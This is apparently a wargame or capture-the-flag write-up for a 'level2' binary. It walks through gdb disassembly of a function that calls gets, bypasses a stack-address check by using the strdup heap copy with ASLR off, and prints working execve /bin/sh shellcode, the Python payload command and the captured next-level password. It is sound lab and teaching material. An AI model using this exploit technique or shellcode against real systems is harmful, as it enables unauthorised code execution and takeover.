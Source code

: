 ## LEVEL 2
---

As usually, I start the level by using gdb and take a look on the functions we have.

```shell
(gdb) i func
All defined functions:
[...]
0x080484d4  p
0x0804853f  main
[...]
```

So we have two functions `p` and `main`, main is almost empty and it's only used to run `p`. So I will only talk about `p` during this level. Let's see what `p` does. I will only show the most interesting functions if you want to have the all function and the `main` function [click here](asm/level1.asm).

```shell
0x080484d7 <+3>:	sub    $0x68,%esp ; Allocate 104 bytes
[...]
0x080484ed <+25>:	call   0x80483c0 <gets@plt> ; Call gets and store in stack
[...]
0x080484f2 <+30>:	mov    0x4(%ebp),%eax ; Save the return address in eax register
[...]
0x080484fb <+39>:	and    $0xb0000000,%eax
0x08048500 <+44>:	cmp    $0xb0000000,%eax ; Check if return value is in the stack
0x08048505 <+49>:	jne    0x8048527 <p+83> ; Return if is in the stack
[...]
0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
0x0804852a <+86>:	mov    %eax,(%esp)
0x0804852d <+89>:	call   0x80483f0 <puts@plt> ; Print the buffer
[...]
0x08048535 <+97>:	mov    %eax,(%esp)
0x08048538 <+100>:	call   0x80483e0 <strdup@plt> ; Copy the buffer
0x0804853d <+105>:	leave
0x0804853e <+106>:	ret
```

First thing I notice is that we don't have any calls to `execve` or `system`. That means I have to run a shell by using a shellcode *(shell code is an ASM code translated into bytecode that launches a shell terminal)*.

The second thing is that we have a `gets` call to overflow the buffer and change the return address.

Sadly, we have a problem.

```shell
(gdb) i proc mapping
process 4836
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
[...]
    0x804a000  0x806b000    0x21000        0x0 [heap]
[...]
    0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

The condition at line 44 is here to check that our shellcode is inside the heap, but `gets` stores the input inside the stack. So when I change the return address to my shellcode inside the stack, the program will exit.

To solve this problem, the virtual machine helps us! When I logged into the virtual machine, I saw this message: `System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)`. That means that the addresses where variables are stored on the stack and heap are the same every time you start the executable. That means that in our case, `strdup` will store a copy of our buffer always at the same address. So I will write a shellcode that overflows the buffer to overwrite the address of the copy of the shellcode in place of the return address. Our executable will jump to the shellcode at the end of the function without being blocked by the condition.

It's time to create our payload !

---

First I search a shellcode, to do that I use [this](https://shell-storm.org/shellcode/index.html) website. Here is my shellcode :
`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`.

Then I need to find the return address of the `p` function.

`EIP address = ($ebp + 4) - ($ebp - 4c) = 80`

And finally the address return by `strcpy`.

```shell
(gdb) disas p
[...]
0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
=> 0x0804853d <+105>:	leave
[...]
x $eax
0x804a008:	0x61616161
```

Now here is my payload : `"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*59 + "\x08\xa0\x04\x08"'`

```shell
$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*59 + "\x08\xa0\x04\x08"') > /tmp/payload
$ (cat /tmp/payload; echo "cat /home/user/level3/.pass") | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
